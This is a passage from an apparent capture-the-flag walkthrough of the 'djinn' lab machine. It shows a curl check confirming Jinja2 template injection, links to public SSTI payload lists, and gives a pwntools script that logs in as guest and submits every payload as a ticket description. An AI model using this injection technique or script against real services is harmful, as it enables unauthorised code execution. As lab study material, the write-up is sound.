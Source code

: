 Our new ticket wiyth ID 1480 has been created and getting the details reveals that our payload has been interpreted as a serie of `7`, which confirms that the template system is Jinja2.

~~~
kali@kali:~$ curl -s http://djinn.box:5000/?id=1480

        <html>
            <head>
            </head>

            <body>
                <h4>7777777</h4>
                <br>
                <b>Status</b>: open
                <br>
                <b>ID</b>: 1480
                <br>
                <h4> Description: </h4>
                <br>
                7777777
            </body>
             <footer>
              <p><strong>Sorry for the bright page, we are working on some beautiful CSS</strong></p>
             </footer> 
        </html>
~~~

Now with this hint, I searched for Jinja2 command injection and found these resources:

* https://github.com/payloadbox/ssti-payloads).
* https://raw.githubusercontent.com/payloadbox/ssti-payloads/master/Intruder/ssti-payloads.txt

At this stage, I wrote a python script that would create the tickets based on the payloads found:

```python
#!/usr/bin/env python3

from pwn import *

host, port = 'djinn.box', 31337
s = remote(host, port)

s.recvuntil('username> ')
s.sendline('guest')

s.recvuntil('password> ')
s.sendline('guest')

with open('ssti-payloads.txt') as f:
    payloads = f.readlines()

for i, payload in enumerate(payloads):

    s.recvuntil('> ')
    s.sendline('open')

    s.recvuntil('Title: ')
    s.sendline('test{}'.format(i))

    s.recvuntil('Description: ')
    s.sendline('{}'.format(payload))

s.close()
```
